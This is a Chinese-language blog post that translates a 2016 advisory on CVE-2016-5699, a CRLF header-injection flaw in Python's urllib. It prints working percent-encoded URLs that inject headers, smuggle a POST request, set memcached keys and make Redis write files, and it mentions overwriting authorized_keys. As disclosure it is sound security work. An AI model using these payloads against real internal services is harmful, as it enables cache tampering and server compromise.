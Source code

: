 ```yaml
---
id: 749
layout: post
title: 'Python urllib HTTP头注入漏洞'
date: 2016-06-17 19:34:00
author: virusdefender
tags: 安全 Python
---
```


已经发在了乌云知识库 http://drops.wooyun.org/papers/16905


## 总览

Python的urllib库（在Python2中为`urllib2`，在Python3中为`urllib`）有一个HTTP协议下的协议流注入漏洞。如果攻击者可以控制Python代码访问任意URL或者让Python代码访问一个恶意的web server，那这个漏洞可能会危害内网服务安全。

## 问题在哪

HTTP协议解析host的时候可以接受百分号编码的值，解码，然后包含在HTTP数据流里面，但是没有进一步的验证或者编码，这就可以注入一个换行符。

```python
#!/usr/bin/env python3

import sys
import urllib
import urllib.error
import urllib.request

url = sys.argv[1]

try:
    info = urllib.request.urlopen(url).info()
    print(info)
except urllib.error.URLError as e:
    print(e)
```

这段代码只是从命令行参数接收一个URL，然后去访问它。为了查看`urllib`获取的HTTP头，我们用一个nc来监听端口。

```
nc -l -p 12345
```

在正常的代码中，我们可以这样访问

```
./fetch3.py http://127.0.0.1:12345/foo
```

返回的HTTP头是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Connection: close
Host: 127.0.0.1:12345
```

然后我们使用恶意构造的地址

```
./fetch3.py http://127.0.0.1%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345/foo
```

返回的HTTP头就是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
X-injected: header
x-leftover: :12345
Connection: close
```

然后攻击者可以任意注入HTTP头了。

这个攻击在使用域名的时候也可以进行，但是要插入一个空字节才能进行DNS查询。比如说，下面的URL进行解析会失败的。

```
http://localhost%0d%0ax-bar:%20:12345/foo
```

但是下面的URL是可以正常解析并访问到127.0.0.1的

```
http://localhost%00%0d%0ax-bar:%20:12345/foo
```

要注意的是HTTP重定向也可以利用这个漏洞，如果攻击者提供的URL是一个恶意的web server，然后服务器可以重定向到其他的URL也可以导致协议注入。

## 攻击面

下面会讨论几个可能导致严重后果的攻击方式。当然还远远不够，攻击都需要特定的场景，有很多不同的方法可以利用，还不能确定有没有其他的利用方式。

### HTTP头注入和请求伪造

这个攻击方式由来已久了，但是和[以前的请求伪造](http://www.cgisecurity.com/lib/HTTP-Request-Smuggling.pdf
)不同的是，这里仅仅是可以注入额外的HTTP头和请求方法。当然当前场景下，能够提交不同的HTTP方法和请求数据就已经很有用了，比如说原始的请求是这样的

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
Connection: close
```

攻击者可以注入一个额外的完整的HTTP请求头

```
http://127.0.0.1%0d%0aConnection%3a%20Keep-Alive%0d%0a%0d%0aPOST%20%2fbar%20HTTP%2f1.1%0d%0aHost%3a%20127.0.0.1%0d%0aContent-Length%3a%2031%0d%0a%0d%0a%7b%22new%22%3a%22json%22%2c%22content%22%3a%22here%22%7d%0d%0a:12345/foo
```

这个的响应是

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
Connection: Keep-Alive

POST /bar HTTP/1.1
Host: 127.0.0.1
Content-Length: 31

{"new":"json","content":"here"}
:12345
Connection: close
```

demo中注入的完整的请求头在Apache HTTPD下是工作的，但是其他的server不一定能正确的解析或者利用。这种攻击可以用在内网攻击上，比如未授权的REST、SOAP或者类似的服务[Exploiting Server Side Request Forgery on a Node/Express Application (hosted on Amazon EC2)](http://sethsec.blogspot.com/2015/12/exploiting-server-side-request-forgery.html)

### 攻击memcached

在[memcached文档](https://github.com/memcached/memcached/blob/master/doc/protocol.txt)中，memcached会开放几个简单的网络协议接口供缓存数据读取和存储使用。一般来说，这种mamcached都是部署在应用服务器上，这样多个实例之间共享数据或者进行一些操作就会比较快，不用进行数据库操作了。要注意的是，memcached默认是都没有密码保护的。开发者或者管理员一般也是认为内网的应用是无法被攻击的。

这样，如果我们可以控制内网的Python访问一个URL，然后我们就可以轻松的访问memcached了，比如

```
http://127.0.0.1%0d%0aset%20foo%200%200%205%0d%0aABCDE%0d%0a:11211/foo
```

就会产生下面的HTTP头

```
GET /foo HTTP/1.1
Accept-Encoding: identity
Connection: close
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
set foo 0 0 5
ABCDE
:11211
```

当检查下面几行memcached的协议语法的时候，大部分都是语法错误，但是memcached在收到错误的命令的时候并不会关闭连接，这样攻击者就可以在请求的任何位置注入命令了，然后memcached就会执行。下面是memcached的响应（memcached是Debian下包管理默认配置安装的）

```
ERROR
ERROR
ERROR
ERROR
ERROR
STORED
ERROR
ERROR
```

经过确认，memcached中确实成功的插入了`foo`的值。这种场景下，攻击者就可以给内网的memcached实例发送任意命令了。如果应用依赖于memcached中存储的数据（比如用户的session数据，HTML或者其他的敏感数据），攻击者可能获取应用更高的权限了。这个利用方式还可以造成拒绝服务攻击，就是攻击者可以在memcached中存储大量的数据。

### 攻击Redis

Redis和memcached很相似，因为都提供了数据备份存储，一些内置数据类型，还能执行Lua脚本。前几年Quite a bit公布了攻击Redis的一些方法（[链接1](https://benmmurphy.github.io/blog/2015/06/04/redis-eval-lua-sandbox-escape/) [链接2](http://antirez.com/news/96) [链接3](http://www.agarri.fr/kom/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html)）。和memcached类似，Redis提供了TCP协议的接口，然后也可以执行一堆错误命令中的正确命令。另外，还可以利用Redis在写任意文件，攻击者可以控制一部分文件内容。比如下面的URL在`/tmp/evil`下创建了一个数据库文件。

```
http://127.0.0.1%0d%0aCONFIG%20SET%20dir%20%2ftmp%0d%0aCONFIG%20SET%20dbfilename%20evil%0d%0aSET%20foo%20bar%0d%0aSAVE%0d%0a:6379/foo
```

然后可以看到刚才存储的一些键值对数据

```
# strings -n 3 /tmp/evil
REDIS0006
foo
bar
```

理论上，攻击者就可以利用Redis创建或者改写一些敏感文件了，包括

```
 ~redis/.profile
 ~redis/.ssh/authorized_keys
...
```

## 多版本的Python都受到影响

Python 2和3版本都受到影响，Cedric Buissart 提供了修复问题的部分信息。

3.4 / 3.5 : [revision 94952](https://hg.python.org/cpython/rev/bf3e1c9b80e9)
2.7 : [revision 94951](https://hg.python.org/cpython/rev/1c45047c5102)

虽然已经在最新的版本中修复了，但是很多系统的稳定版是没法得到修复的，比如最新的Debian Stable就还存在这个漏洞。

## 我的一点思考

Redis和memcached的开发者提供的默认配置是没有密码的，这个是不负责任的。当然，我能理解他们认为这些东西应该在"可信的内网"中使用。问题，实际上很少的内网能比外网更安全。未授权的服务即使监听在localhost，也会受到影响的。在安装过程中加一个随机生成的密码也并不难，开发者应该严肃的面对安全问题。

## 注

 - 这个漏洞编号是 CVE-2016-5699，RedHat给申请的 http://www.openwall.com/lists/oss-security/2016/06/14/7
 - 以前Python bugs中的讨论 https://bugs.python.org/issue22928
 
 
原文 http://blog.blindspotsecurity.com/2016/06/advisory-http-header-injection-in.html


